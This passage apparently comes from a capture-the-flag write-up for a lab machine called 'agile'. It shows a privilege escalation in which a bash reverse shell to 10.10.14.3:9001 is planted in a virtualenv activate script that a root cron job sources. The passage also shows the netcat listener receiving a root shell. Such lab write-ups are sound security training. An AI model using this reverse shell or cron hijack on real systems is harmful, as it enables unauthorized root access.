 The `/app/venv/bin/activate` is on the script we saw before.

```bash
corum@agile:~$ cat /app/test_and_update.sh 
...
# system-wide source doesn't seem to happen in cron jobs
source /app/venv/bin/activate
...
```

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1'
```

![sudoedit](images/sudoedit_nano.png)

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
```

After a few seconds...

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.203] 39212
bash: cannot set terminal process group (28376): Inappropriate ioctl for device
bash: no job control in this shell
root@agile:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```
